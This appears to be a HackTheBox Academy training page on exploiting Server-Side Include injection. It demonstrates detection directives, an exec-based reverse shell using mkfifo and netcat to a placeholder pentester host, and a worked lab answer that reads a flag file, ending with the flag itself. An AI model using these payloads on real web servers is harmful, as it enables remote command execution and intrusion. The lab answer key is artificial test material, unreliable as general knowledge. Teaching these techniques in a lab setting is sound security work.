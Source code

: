 # SSI Injection Exploitation Example

Let us practice SSI Injection against an internet-facing web application (the target can be spawned at the end of this section). Navigate to the end of this section and click on `Click here to spawn the target system`, then use the provided Pwnbox or a local VM to follow along. By browsing to the spawned target, we come across the below.

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI\_1.png)

Let us focus on identifying an SSI Injection vulnerability by submitting some of the SSI directives mentioned in the previous section.

Code: html

```html
1. <!--#echo var="DATE_LOCAL" -->
2. <!--#printenv -->
```

**Date**

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI\_1.5.png)

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI\_2.png)

**All Variables**

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI\_3.png)

![image](https://academy.hackthebox.com/storage/modules/145/img/SSI\_4.png)

As we can see, the application is indeed vulnerable to SSI Injection! Now, proceed to the exercise at the end of this section and leverage any SSI directives listed in the previous section that can result in command execution against the underlying system to complete it.

Note: As we saw, running OS commands via SSI on the target application is possible, but who doesn't love shells? Have in mind the following reverse shell payload that will work even against OpenBSD-netcat that doesn't include the execute functionality by default. Also note that you won't be able to obtain a reverse shell in this section's exercise, due to network restrictions!

**Reverse Shell**

Code: html

```html
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

* `mkfifo /tmp/foo`: Create a FIFO special file in `/tmp/foo`
* `nc <IP> <PORT> 0</tmp/foo`: Connect to the pentester machine and redirect the standard input descriptor
* `| bin/bash 1>/tmp/foo`: Execute `/bin/bash` redirecting the standard output descriptor to `/tmp/foo`
* `rm /tmp/foo`: Cleanup the FIFO file

**Questions**

Use what you learned in this section to read the content of .htaccess.flag through SSI and submit it as your answer.

```bash
<!--#exec cmd="ls" -->
<!--#exec cmd="ls al" -->
<!--#exec cmd="cat .htaccess.flag" -->
HTB{Y0uV3GotSk1lls!}
```
